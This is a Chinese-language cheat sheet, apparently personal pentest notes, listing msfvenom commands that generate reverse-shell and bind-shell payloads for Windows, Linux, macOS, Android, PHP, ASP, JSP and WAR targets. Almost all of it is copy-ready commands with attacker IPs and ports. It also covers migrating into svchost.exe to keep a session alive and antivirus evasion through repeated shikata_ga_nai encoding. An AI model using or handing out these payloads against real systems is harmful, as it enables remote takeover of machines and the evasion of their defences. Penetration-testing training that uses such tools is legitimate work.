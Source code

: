 # msfvenom 
[MSF生成Payload/反弹shell 方式总结](https://mp.weixin.qq.com/s/pIakrui_9vsQdun7aopUYw)

如果tcp不行换协议
reverse_tcp
reverse_http

常用参数
- 比如想查看windows/meterpreter/reverse_tcp支持什么平台、哪些选项,可以使用
msfvenom -p windows/meterpreter/reverse_tcp --list-options
- msfvenom --list payloads可查看所有payloads
- msfvenom --list encoders可查看所有编码器
  - 评级最高的两个encoder为 cmd/powershell_base64 和 x86/shikata_ga_nai,其中 x86/shikata_ga_nai也是免杀中使用频率最高的一个编码器
类似可用 msfvenom--list 命令查看的还有payloads,encoders,nops,platforms,archs,
encrypt,formats

## filter payloads list
```bash
# filter php
msfvenom -l payloads | grep "php" | awk '{print $1}'
```


## payload的可持续化
- 自动迁移到进程
```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -e x86/shikata_ga_nai -b "\x00" -i 5 -a x86 --platform win PrependMigrate=true PrependMigrateProc=svchost.exe -f exe -o shell.exe
```

- 生成的shell程序执行后会启动两个进程shell.exe和svchost.exe,关闭其中一个不会影响会话状态.
在上面的生成payload参数中:
- (1) PrependMigrate＝true PrependMigrateProc＝svchost．exe 使这个程序默认会迁移到
svchost.exe进程,自己测试的时候不建议到这个进程而是其他的持久进程.
- (2)使用-p指定使用的攻击载荷模块,使用-e指定使用x86／shikata_ga_nai编码器,使用-f选项告
诉MSF编码器输出格式为exe,-o选项指定输出的文件名为payload.exe,保存在根自录下.

## 正向反向payload区别, reverse_tcp和bind_tcp区别：
目标机器可以上网，那就使用reverse_tcp，让目标机器出网连接我们的服务器
无法外网的，使用正向连接，反向出不来 windows/x64/meterpreter/bind_tcp

注意，获得meterpreter的顺序为：先在win机器上执行我们的exe，然后再在msf上执行`exploit`。与`reverse_tcp`的顺序刚好相反。

```shell
[reverse_tcp]
attacker -> [contact me at the port 4444] -> victim

after the payload is executed
attacker <-> [port 4444] <-> victim

[bind_tcp]
attacker -> [open the way for me in the port 4444] -> victim

after execution
attacker <-> [port 4444] <-> victim
```


## 各平台的 payload/bin/exe/反弹shell
https://micro8.gitbook.io/micro8/contents-1/1-10/10msfvenom-chang-yong-sheng-cheng-payload-ming-ling

```bash
# Windows
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=$ip LPORT=1234 -f exe > shell.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1234 -f exe > shell.exe
msfvenom -p windows/meterpreter/bind_tcp LPORT=1234 -f exe >bind.exe
msfvenom -p windows/x64/powershell_reverse_tcp LHOST=$ip LPORT=1234  -f raw -o payload.ps1
msfvenom -p windows/shell_reverse_tcp LPORT=443 LHOST=192.168.2.157 -e x86/shikata_ga_nai -b "\x00" -f py 
# 默认的stageless payload只会包含stageless，所以如果想将stdapi和priv两个组建给包含进去的华我们可以用extensions命令：
msfvenom -p windows/meterpreter_reverse_tcp LHOST=172.16.52.1 LPORT=4444 EXTENSIONS=stdapi,priv -f exe -o stageless.exe

# Linux
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.50.80 LPORT=1234 -f elf > shell.elf
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=1234 -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.50.80 LPORT=1234 -a x86 --platform Linux -f elf > shell.elf
msfvenom -p linux/x86/meterpreter/bind_tcp LPORT=1234 -a x86 --platform Linux -f elf > shell.elf

# Mac
msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP Address> LPORT=<Your Port to Connect On> -f macho>shell.macho

# Android
msfvenom -a dalvik -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 -f raw > shell.apk
msfvenom -p android/meterpreter/reverse_tcp LHOST=192.168.8.124 LPORT=1122 R > test.apk
# PHP
msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.80.103 LPORT=1123 -f raw > shell.php
cat shell.php | pbcopy && echo '<?php' | tr-d '\n'>shell.php && pbpaste >> shell.php
# ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YourP Address> LPORT=<Your Port to Connect On> -f asp > shell.asp
# JSP
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP Address>LPORT=<Your Port to Connect On> -f raw > shell.jsp
# WAR
msfvenom -p java/jsp_shell_reverse_tcp LHOST=$ip LPORT=1234 -f war > shell.war

# shellcode
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4444 EXITFUNC=thread -b "\x00\x07\x2e\xa0" -f c
```
免杀版命令
```shell
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.50.161 LPORT=1234 -e x64/shikata_ga_nai -i 5 -f exe > shell.exe
```